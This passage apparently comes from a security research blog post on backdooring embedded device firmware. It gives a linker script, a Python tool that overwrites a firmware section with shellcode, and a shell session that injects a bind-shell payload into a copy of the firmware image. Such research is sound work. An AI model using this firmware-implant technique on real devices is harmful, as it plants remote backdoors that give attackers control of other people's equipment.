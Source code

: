We need to edit the linker script and put the right offset, which corresponds to the start address of *StartupServer* function:

{% highlight c %}
SECTIONS
{
  . = 0x805f4434;
  .start : { *(.start) }
  .text : { *(.text) }
  .data : { *(.data) }
  .rodata : { *(.rodata) }
}
{% endhighlight %}


I wrote this quick and dirty Python script to overwrite a given section with custom shellcode:

{% highlight python %}
#!/usr/bin/env python3
import sys

LOAD_ADDRESS = 0x80004000

if __name__ == "__main__":

    if len(sys.argv) < 5:
        print("Usage: {} firmware shellcode start end")
        sys.exit(-1)

    firmware_file = sys.argv[1]
    shellcode_file = sys.argv[2]
    start_offset = int(sys.argv[3], 16) - LOAD_ADDRESS
    end_offset = int(sys.argv[4], 16) - LOAD_ADDRESS

    available_space = end_offset - start_offset

    print("Available space: {} bytes".format(available_space))

    with open(shellcode_file, 'rb') as f:
        shellcode = f.read()

    if len(shellcode) > available_space:
        print("Not enough available space to fit shellcode")
        sys.exit(-1)

    padding = b"\x00" * (available_space - len(shellcode))

    print("Overwriting firmware file with shellcode.")
    with open(firmware_file, 'r+b') as f:
        f.seek(start_offset)
        f.write(shellcode)
        f.write(padding)
{% endhighlight %}

Let's inject our shellcode:

{% highlight sh %}
cp firmware.clean firmware.implant
./inject.py firmware.implant ~/git/ecoshell/bindshell_thread.bin 0x805f4434 0x805f4b28
Available space: 1780 bytes
Overwriting firmware file with shellcode.
{% endhighlight %}
